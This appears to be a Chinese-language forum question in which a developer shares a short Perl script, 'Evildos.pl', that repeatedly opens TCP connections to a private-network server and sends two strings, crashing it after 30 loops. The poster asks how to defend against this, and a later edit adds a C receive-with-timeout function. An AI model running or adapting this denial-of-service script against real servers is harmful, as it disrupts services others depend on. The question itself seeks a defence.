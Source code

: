 所以，它是可以使用的。我在 perl 中编写了一个非常简单的 dos 脚本来关闭服务器。

```
#Evildos.pl
use strict;
use Socket;
use IO::Handle;
sub dosfunction
{
my $host = shift || '192.168.4.21';
my $port = 1234;
my $firststr = 'firststr';
my $secondstr = 'secondstr';
my $protocol = getprotobyname('tcp');
$host = inet_aton($host) or die "$host: unknown host";
socket(SOCK, AF_INET, SOCK_STREAM, $protocol) or die "socket() failed: $!";
my $dest_addr = sockaddr_in($port,$host);
connect(SOCK,$dest_addr) or die "connect() failed: $!";
SOCK->autoflush(1);
print SOCK $firststr;
#sleep(1);
print SOCK $secondstr;
#sleep(1);
close SOCK;
}

my $i;
for($i=0; $i<30;$i++)
{
&dosfunction;
} 
```

循环 30 次，服务器宕机。

问题是：有没有一种方法、一个系统、一个解决方案可以避免这种类型的攻击？

编辑：recvtimeout

```
int recvtimeout(int s, char *buf, int len, int timeout)
     {

fd_set fds;
int n;
struct timeval tv;
// set up the file descriptor set
FD_ZERO(&fds);
FD_SET(s, &fds);
// set up the struct timeval for the timeout
tv.tv_sec = timeout;
tv.tv_usec = 0;
// wait until timeout or data received
n = select(s+1, &fds, NULL, NULL, &tv);
if (n == 0){
    return -2; // timeout!
}
if (n == -1){
    return -1; // error
}
// data must be here, so do a normal recv()
return recv(s, buf, len, 0);
    } 
```
